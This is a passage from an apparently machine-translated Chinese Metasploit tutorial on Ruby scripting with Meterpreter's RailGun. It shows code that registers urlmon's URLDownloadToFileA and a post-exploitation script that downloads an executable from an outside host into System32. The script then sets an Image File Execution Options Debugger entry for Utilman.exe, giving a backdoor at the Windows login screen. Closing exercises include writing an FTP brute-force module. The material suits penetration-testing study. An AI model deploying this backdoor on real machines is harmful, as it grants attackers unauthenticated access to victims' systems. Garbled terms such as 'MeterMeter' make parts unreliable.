client.railgun.add_dll('urlmon','C:\WINDOWS\system32\urlmon.dll') 
client.railgun.add_function('urlmon','URLDownloadToFileA','DWORD',[ 
["DWORD","pcaller","in"], 
["PCHAR","szURL","in"], 
["PCHAR","szFileName","in"], 
["DWORD","Reserved","in"], 
["DWORD","lpfnCB","in"], 
]) 
```

将代码保存在名为`urlmon.rb`的文件`/scripts/meterpreter`目录下。

前面的脚本为`C:\WINDOWS\system32\urlmon.dll`文件添加了一个引用路径，其中包含浏览所需的所有功能，以及下载特定文件等功能。我们将此引用路径保存在名称`urlmon`下。接下来，我们向 DLL 文件添加一个函数，使用 DLL 文件的名称作为第一个参数，将要挂接的函数的名称作为第二个参数，即`URLDownloadToFileA`，然后是所需的参数。代码的第一行检查 DLL 函数是否已经存在于 DLL 文件中。如果该函数已经存在，脚本将跳过再次添加该函数。如果调用的应用程序不是 ActiveX 组件，`pcaller`参数设置为`NULL`；如果是，则设置为 COM 对象。`szURL`参数指定要下载的 URL。`szFileName`参数指定从 URL 下载的对象的文件名。`Reserved`始终设置为`NULL`，并且`lpfnCB`处理下载状态。但是，如果状态不是必需的，则该值应设置为`NULL`。

现在让我们创建另一个脚本，它将使用此函数。我们将创建一个攻击后脚本，该脚本将下载一个免费文件管理器，并在 Windows 操作系统上修改实用程序管理器的条目。因此，无论何时调用实用程序管理器，我们的免费软件程序都将运行。

我们在同一目录中创建另一个脚本，并将其命名为`railgun_demo.rb`，如下所示：

```
client.railgun.urlmon.URLDownloadToFileA(0,"http://192.168.1.10 /A43.exe","C:\Windows\System32\a43.exe",0,0) 
key="HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Utilman.exe" 
syskey=registry_createkey(key) 
registry_setvaldata(key,'Debugger','a43.exe','REG_SZ') 
```

如前所述，脚本的第一行将使用所需参数从`urlmon`DLL 文件调用自定义添加的 DLL 函数`URLDownloadToFile`。

接下来，我们在父键`HKLMSOFTWAREMicrosoftWindows NTCurrentVersionImage File Execution Options`下创建一个键`Utilman.exe`。

我们在`utilman.exe`键下创建一个名为`Debugger`的`REG_SZ`类型的注册表值。最后，我们将值`a43.exe`分配给`Debugger`。

让我们从 MeterMeter 运行此脚本，以了解如何工作：


一旦我们运行了`railgun_demo`脚本，文件管理器就会使用`urlmon.dll`文件下载并放置在`system32`目录中。接下来，创建注册表项，替换实用工具管理器运行`a43.exe`文件的默认行为。因此，只要在登录屏幕上按下“易访问”按钮，而不是实用程序管理器，`a43`文件管理器就会出现，并充当目标系统上的登录屏幕后门。

在下面的屏幕截图中，让我们看看当我们在登录屏幕上按下易访问按钮时会发生什么：


我们可以看到它打开了一个`a43`文件管理器，而不是实用工具管理器。我们现在可以执行各种功能，包括修改注册表、与 CMD 交互等等，而无需登录到目标。您可以看到 RailGun 的强大功能，它简化了创建任意 DLL 文件路径的过程，并允许您向其中添加自定义函数。

有关此 DLL 函数的更多信息，请访问：[https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123（v=vs.85）](https://docs.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/platform-apis/ms775123(v=vs.85))。

# 总结和练习

在本章中，我们介绍了 Metasploit 的编码。我们也参与了模块、开发后脚本、MeterMeter、RailGun 和 Ruby 编程。在本章中，我们看到了如何将自定义函数添加到 Metasploit 框架中，并使已经强大的框架更加强大。我们开始熟悉 Ruby 的基础知识。我们学习了如何编写辅助模块、开发后脚本和 MeterMeter 扩展。我们了解了如何使用 RailGun 添加自定义函数，例如向目标的 DLL 文件添加 DLL 文件和自定义函数。

要了解更多信息，您可以尝试以下练习：

*   为 FTP 创建验证暴力模块
*   针对 windows、Linux 和 macOS，至少使用三个攻击后模块，这三个模块还不是 Metasploit 的一部分
*   在 RailGun 上工作，并为来自任何未知 Windows DLL 的至少三种不同功能开发自定义模块

在下一章中，我们将研究上下文中的开发，并利用 Metasploit 中的模块。在这里，我们将开始编写自定义漏洞利用、模糊各种漏洞利用参数、漏洞利用软件以及编写软件和 web 的高级漏洞利用。